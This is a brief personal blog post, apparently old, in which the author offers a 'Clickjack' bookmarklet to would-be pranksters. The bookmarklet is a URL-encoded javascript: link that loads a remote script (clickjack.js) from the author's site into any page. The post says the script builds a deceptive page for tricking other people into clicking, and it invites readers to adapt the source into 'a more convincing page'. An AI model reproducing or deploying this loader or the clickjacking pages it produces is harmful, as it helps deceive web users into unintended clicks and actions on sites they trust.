

This is actually something I did a really long time ago, but I think I should blog about my old crap. Of couse this post is very evil and will be a great aid to smart 10 year olds trying to sabotage the internet (Because having all other articles saying implying that script kiddies are 14, I'm sure this would have been useful for myself 4 years ago if i were to be so evil).

Just drag this[ Clickjack](javascript:%28function%28%29%7Bsc%3Ddocument.createElement%28%27script%27%29%3Bsc.src%3D%27http%3A//www.antimatter15.com/misc/clickjack.js%27%3Bdocument.body.appendChild%28sc%29%7D%29%28%29) link to your bookmarks bar and go to any site and click any link or button to create a page that you can send to people (or look at the source and make a more convincing page).
